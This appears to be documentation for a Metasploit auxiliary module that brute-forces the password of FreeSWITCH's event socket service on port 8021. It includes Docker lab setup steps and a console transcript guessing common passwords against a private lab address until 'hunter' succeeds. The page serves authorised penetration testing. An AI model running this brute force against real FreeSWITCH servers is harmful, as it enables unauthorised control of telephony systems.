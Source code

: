 ## Vulnerable Application
[FreeSWITCH](https://freeswitch.com/) is a free and open-source software defined telecommunications stack for real-time communication,
WebRTC, telecommunications, video, and Voice over Internet Protocol.

The [Event Socket](https://freeswitch.org/confluence/display/FREESWITCH/mod_event_socket) `mod_event_socket` is a TCP based interface to
control FreeSWITCH and is enabled by default.

This module has been tested successfully on FreeSWITCH versions:
* 1.10.7-release-19-883d2cb662~64bit on Debian 10.11 (buster)

### Description

This module is a login utility to find the password of the FreeSWITCH event socket service by bruteforcing the login interface.
Note that this service does not require a username to log in; login is done purely via supplying a valid password.

This service is enabled by default and listens on TCP port 8021 on the local network interface.

Source and Installers:
* [Source Code Repository](https://github.com/signalwire/freeswitch)
* [Installers](https://freeswitch.org/confluence/display/FREESWITCH/Installation)
* [Virtual Machine](https://freeswitch.com/index.php/fs-virtual-machine/)
* [Docker](https://github.com/drachtio/docker-drachtio-freeswitch-mrf)

Docker installation:
```
docker pull drachtio/drachtio-freeswitch-mrf
docker run -d --rm --name FS1 --net=host \
-v /home/deploy/log:/usr/local/freeswitch/log  \
-v /home/deploy/sounds:/usr/local/freeswitch/sounds \
-v /home/deploy/recordings:/usr/local/freeswitch/recordings \
drachtio/drachtio-freeswitch-mrf freeswitch --sip-port 5038 --tls-port 5039 --rtp-range-start 20000 --rtp-range-end 21000 --password hunter
```

## Verification Steps
1. Do: `use auxiliary/scanner/misc/freeswitch_event_socket_login`
2. Do: `set RHOSTS [ips]`
3. Do: `set PASS_FILE /home/kali/passwords.txt`
4. Do: `run`

## Options
### PASS_FILE
The file containing a list of passwords to try logging in with.

## Scenarios
### FreeSWITCH 1.10.7 Linux Debian 10.11 (Docker Image)
```
msf6 > use auxiliary/scanner/misc/freeswitch_event_socket_login
msf6 auxiliary(scanner/misc/freeswitch_event_socket_login) > set RHOSTS 192.168.56.1
RHOSTS => 192.168.56.1
msf6 auxiliary(scanner/misc/freeswitch_event_socket_login) > set PASS_FILE /home/kali/passwords.txt
PASS_FILE => /home/kali/passwords.txt
msf6 auxiliary(scanner/misc/freeswitch_event_socket_login) > run

[!] 192.168.56.1:8021        - No active DB -- Credential data will not be saved!
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: ClueCon (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: admin (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 123456 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 12345 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 123456789 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: password (Incorrect: -ERR invalid)
[+] 192.168.56.1:8021        - 192.168.56.1:8021 - Login Successful: hunter (Successful: +OK accepted)
[*] 192.168.56.1:8021        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

